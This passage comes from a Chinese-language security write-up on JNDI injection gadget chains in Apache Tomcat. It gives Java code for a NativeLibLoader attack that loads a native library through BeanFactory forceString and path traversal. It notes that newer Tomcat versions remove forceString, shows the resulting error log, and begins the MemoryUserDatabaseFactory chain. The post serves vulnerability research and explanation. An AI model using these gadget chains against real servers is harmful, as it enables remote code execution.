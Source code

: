 ```java
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        registry.bind("Foo", wrapper);
        System.err.println("Server ready");
    }
```


#### NativeLibLoader
com.sun.glass.utils.NativeLibLoader 为 jdk 内置类，其 loadLibrary 方法可以从本地加载链接库文件。需要配合文件上传或者文件写入漏洞。
```java
    public static void AttackWithNativeLibLoader() throws Exception {
        ResourceRef ref = new ResourceRef("com.sun.glass.utils.NativeLibLoader", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=loadLibrary"));
        ref.add(new StringRefAddr("a", "/../../../../../../../../../../../../tmp/libcmd"));
        System.err.println("Server ready");
    }
```


**注意**：tomcat 较新版本(>=8.5.79,>=9.0.55)中已经禁用了 forceString 来增强安全性，具体可见： [Apache Tomcat 8 (8.5.90) - Changelog](https://tomcat.apache.org/tomcat-8.5-doc/changelog.html)
>Tomcat 8.5.79 (schultz)
>Catalina
>Fix: [65736](https://bz.apache.org/bugzilla/show_bug.cgi?id=65736): Disable the forceString option for the JNDI BeanFactory and replace it with an automatic search for an alternative setter with the same name that accepts a String. This is a security hardening measure. (markt) 

forceString 被禁用后会导致如下报错：
```java
Jun 29, 2023 11:29:37 PM org.apache.naming.factory.BeanFactory getObjectInstance
WARNING: The forceString option has been removed as a security hardening measure. Instead, if the setter method doesn't use String, a primitive or a primitive wrapper, the factory will look for a method with the same name as the setter that accepts a String and use that if found.
Exception in thread "main" javax.naming.NamingException: No set method found for property [x]
	at org.apache.naming.factory.BeanFactory.getObjectInstance(BeanFactory.java:206)
	at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:332)
	at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:499)
	at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:138)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at com.dr34d.Main.main(Main.java:16)
```
### MemoryUserDatabaseFactory 利用链
org.apache.catalina.users.MemoryUserDatabaseFactory 也是 Tomcat 中的一个工厂类，其 getObjectInstance 代码如下：
```java
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        if (obj != null && obj instanceof Reference) {
            Reference ref = (Reference)obj;
            if (!"org.apache.catalina.UserDatabase".equals(ref.getClassName())) {
                return null;
            } else {
                MemoryUserDatabase database = new MemoryUserDatabase(name.toString());
                RefAddr ra = null;
                ra = ref.get("pathname");
                if (ra != null) {
                    database.setPathname(ra.getContent().toString());
                }

                ra = ref.get("readonly");
                if (ra != null) {
                    database.setReadonly(Boolean.parseBoolean(ra.getContent().toString()));
                }

```